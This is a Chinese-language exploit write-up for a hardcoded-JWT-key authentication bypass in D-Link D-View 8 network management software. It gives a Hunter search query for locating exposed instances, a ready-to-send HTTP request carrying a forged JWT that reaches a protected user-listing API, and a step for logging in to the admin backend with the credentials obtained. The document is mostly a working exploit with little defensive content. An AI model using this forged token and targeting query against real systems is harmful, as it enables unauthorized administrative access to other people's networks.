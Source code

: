# D-Link D-View 8 JWT认证绕过漏洞

# 一、漏洞简介
D-Link D-View 8是一款高度可定制且易于扩展的网络管理软件，可为任何规模的企业网络基础设施提供端到端的可管理性，支持多厂商设备监控和流量管理，提供实时网络概览和远程位置集中管理等功能。D-Link D-View 8在v2.0.1.28及之前版本中存在硬编码密钥漏洞，由于默认情况下，初始管理员的userId是相同的，未授权攻击者可以利用JWT密钥配合该userId伪造令牌，从而访问受保护的API路由。

# 二、影响版本
+ D-Link D-View 8

# 三、资产测绘
+ hunter`web.title="D-View 8"`
+ 特征

![1701839567675-ed66c07f-aea6-4850-b7c7-c49d862e1d91.png](./img/v1c7cZkWlNWzcNJU/1701839567675-ed66c07f-aea6-4850-b7c7-c49d862e1d91-937841.png)

# 四、漏洞复现
```plain
GET /dview8/api/usersByLevel HTTP/1.1
Host: xx.xx.xx.xx
Authorization: eyJhbGciOiAiSFMyNTYiLCJ0eXAiOiAiand0In0.eyJvcmdJZCI6ICIxMjM0NTY3OC0xMjM0LTEyMzQtMTIzNC0xMjM0NTY3ODA5YWEiLCJ1c2VySWQiOiAiNTkxNzFkNTYtZTZiNC00Nzg5LTkwZmYtYTdhMjdmZDQ4NTQ4IiwidHlwZSI6IDMsImtleSI6ICIxMjM0NTY3OC0xMjM0LTEyMzQtMTIzNC0xMjM0NTY3ODkwYmIiLCJpYXQiOiAxNjg2NzY1MTk4LCJqdGkiOiAiZmRhOGU1YzNlNWY1MTQ5MDMzZThiM2FkNWI3ZDhjMjUiLCJuYmYiOiAxNjg2NzYxNTk4LCJleHAiOiAxODQ0NDQ1MTk4fQ.5swhQdiev4r8ZDNkJAFVkGfRTIaUQlwVue2AI18CrcI
```

![1701839603018-11b6a9b7-e5b8-47e8-81db-8a15049decbd.png](./img/v1c7cZkWlNWzcNJU/1701839603018-11b6a9b7-e5b8-47e8-81db-8a15049decbd-081010.png)

可通过获取的账号密码抓取登录数据包，替换用户名及加密密码后登录后台

![1701839763056-977928a1-6f42-4bd7-b2db-4351ec46a01a.png](./img/v1c7cZkWlNWzcNJU/1701839763056-977928a1-6f42-4bd7-b2db-4351ec46a01a-839628.png)



> 更新: 2024-02-29 23:57:12  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/usw057398ry1de8p>